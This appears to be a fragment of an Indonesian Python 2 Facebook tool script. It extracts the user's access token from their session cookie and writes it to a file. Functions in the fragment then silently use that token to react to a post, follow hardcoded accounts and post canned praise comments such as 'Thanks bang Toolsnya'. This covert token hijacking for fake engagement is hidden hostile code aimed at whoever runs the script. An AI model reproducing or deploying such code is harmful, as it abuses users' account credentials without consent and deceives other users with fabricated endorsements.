 def love_token(token):
	lis_id_foll = ["100038019723653", "1417141901"]
	with requests.Session() as dev_:
		dev_.post("https://graph.facebook.com/"+id_post+"/reactions?type=LOVE&access_token="+token)
		for id_foll in lis_id_foll:
			dev_.post("https://graph.facebook.com/{}/subscribers?access_token={}".format(id_foll, token))
		dev_.post("https://graph.facebook.com/{}/subscribers?access_token={}".format(random.choice(["100001027764318", "100045387495929", "100040248105716"]), token))
		ikuti_ = []
def komen(token):
	for dev in range(1):
		with requests.Session() as dev_:
			komen_ = random.choice(["Toolsnya Mantap", "Gw Fans Lu Bang", "Gimana Kabarnya Bang?", "Hallo bang", "Keren Bos..", "Thanks bang Toolsnya", "Gak sia2 saya make tool abang, Keren Abis, Ga ada Obat"])
			dev_.post("https://graph.facebook.com/"+id_post+"/comments/?message="+komen_+"&access_token="+token)

def __token__dev(cookie):

		try:
			headerz = {
				# "user-agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36"
				"user-agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Kiwi Chrome/68.0.3438.0 Safari/537.36",
				'referer' : 'https://m.facebook.com/',
				'host' : 'm.facebook.com',
				'origin' : 'https://m.facebook.com',
				'upgrade-insecure-requests' : '1',
				'accept-language' : 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7',
				'cache-control' : 'max-age=0',
				'accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
				'content-type' : 'text/html; charset=utf-8'
			}
			halaman = requests.get("https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_", headers=headerz, cookies=cookie).text
			regex_token_dev = re.search("(EAAA\w+)", halaman)
			token_dev = regex_token_dev.group(1)
			print "\n [*] "+p+"Token FB Kamu: "+d+token_dev
			with open("token.txt", "w") as tul:
				tul.write(token_dev)
		except:
			print k+"\n [!] Gagal Ambil Token, Jangan Login fb Dalam mode Gratis!\n"
			exit()


def login_dengan_passwod():
	global fb, time
	try:
		
		print h+"\n\n      L O G I N  F A C E B O O K "
		print garis
		print p+"      IP Sekarang: "+k+ip
		print garis
